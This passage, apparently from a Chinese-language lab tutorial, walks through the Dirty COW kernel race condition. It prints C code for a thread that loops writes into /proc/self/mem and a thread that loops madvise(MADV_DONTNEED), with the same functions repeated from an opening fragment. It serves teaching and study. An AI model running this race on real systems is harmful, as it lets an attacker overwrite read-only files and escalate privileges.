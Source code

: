 ```c
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int)arg;
  while (1)
  {
    madvise(map, file_size, MADV_DONTNEED);
  }
}
```



> 在上面的代码中，我们需要找到模式“222222”的位置。我们使用一个名为`strstr()`的字符串函数来查找“`222222`”在映射内存中的位置(`  char *position = strstr(map, "222222");`26行)。然后我们启动两个线程:madviseThread (`pthread_create(&pth1, NULL, madviseThread, (void *)file_size);`29行)和writeThread (`pthread_create(&pth2, NULL, writeThread, position);`30行)

### 3write线程

> 下面列出的写入线程的工作是将内存中的字符串"`222222`"替换为"`******`"。由于映射内存是 COW 类型，因此仅此线程只能修改映射内存副本中的内容，这不会导致对基础 /zzz 文件进行任何更改。

```c
void *writeThread(void *arg)
{
  char *content = "******";
  off_t offset = (off_t)arg;

  int f = open("/proc/self/mem", O_RDWR);
  while (1)
  {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
```

### 4madvise线程

> madvise 线程只做一件事：丢弃映射内存的私有副本，以便页表可以指向原始映射内存。

```c
void *madviseThread(void *arg)
{
  int file_size = (int)arg;
  while (1)
  {
    madvise(map, file_size, MADV_DONTNEED);
  }
}
```
